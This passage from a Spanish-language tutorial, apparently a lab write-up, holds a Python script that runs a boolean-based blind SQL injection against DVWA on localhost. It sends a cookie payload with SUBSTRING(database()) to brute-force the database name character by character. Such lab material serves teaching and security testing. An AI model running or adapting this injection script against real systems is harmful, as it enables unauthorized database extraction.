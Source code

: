 Y esta consulta la adaptaremos a nuestro script ya conocido, cambiando obviamente algunas cosas:

```py

#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#CTRL+C
signal.signal(signal.SIGINT, def_handler)

main_url = "http://localhost/DVWA/vulnerabilities/sqli_blind/"
characters = string.ascii_lowercase + string.digits + "-_:@!$%&()*+/;<=>?[\]^{|}.~"

def makeRequest():
    
    database = ""

    p1 = log.progress("Enumerar base de datos")
    p1.status("Iniciando ataque de fuerza bruta para enumerar el nombre de la base de datos actual")

    time.sleep(2)

    p2 = log.progress("database name")

    for position in range(1,51):

        for character in characters:

            cookies = {
                    'id': "1' AND (SELECT SUBSTRING(database(),%d,1))='%s' -- -" % (position, character),
                    'PHPSESSID': "665toq56i3mfultm4gdbktb2os",
                    'security': "high"
                    }
            
            p1.status(cookies['id'])

            r = requests.get(main_url, cookies=cookies)

            if "User ID exists in the database." in r.text:
                database += character
                p2.status(database)
                break

if __name__ == '__main__':

    makeRequest()

```
